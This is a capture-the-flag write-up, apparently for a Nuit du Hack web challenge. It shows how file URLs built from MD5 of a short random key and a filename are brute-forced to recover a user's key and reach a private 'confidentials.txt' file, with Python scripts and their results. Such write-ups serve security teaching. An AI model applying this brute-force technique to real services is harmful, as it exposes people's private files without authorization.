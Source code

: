 
    def generate_random_filename(user_id,filename):
        dbuser = users.query.filter_by(id=user_id).first()

        if dbuser.privkey is not None:
            return md5(str(dbuser.privkey)+filename).hexdigest()
        else:
            privkey = str(randint(10000000,99999999))
            upd = users.query.filter_by(id=user_id).first()
            upd.privkey = privkey
            db.session.commit()
        return md5(str(privkey)+filename).hexdigest()

### Private file

We have been asked to test the application security. The private file access
seems a interesting vulnerability. The first two files were probably upload by
the staff.
Then we will try to get the **confidentials.txt** file upload by the user koffi.
Hopfuly a second file was upload by this user: **paste1.txt** at the address
prod.facebox.challs.nuitduhack.com/files/view/3686d78a6e9d5258773a6ae0469d3ed4

In order to find the private key of the koffi user, we quickly inverse the
previous script and we brute force the private key in order to found the good
link with the url of the **paste1.txt** file:

    :::pyhton
    import hashlib

    for i in range(10000000,100000000):
            if((i % 10000000) == 0):
                    print "%d" % (i)
            if(hashlib.md5(str(i)+"paste01.txt").hexdigest() == "3686d78a6e9d5258773a6ae0469d3ed4"):
                    print "privkey found: %d" % (i)

    print "Done!"

Result: **privkey found: 95594864**

With this private key we applied the algorithm to the **crendentials.txt** file:

    :::python
    import hashlib


    def generate_random_filename(user_id,filename):

        privkey = 95594864
        print(hashlib.md5(str(privkey)+filename).hexdigest())

    if __name__ == "__main__":
        generate_random_filename("koffi", "confidentials.txt")

Result: **35e2cb0b2e8bd40347ecd4e32767a060**

We have the complete url to access the private file:
prod.facebox.challs.nuitduhack.com/files/view/35e2cb0b2e8bd40347ecd4e32767a060

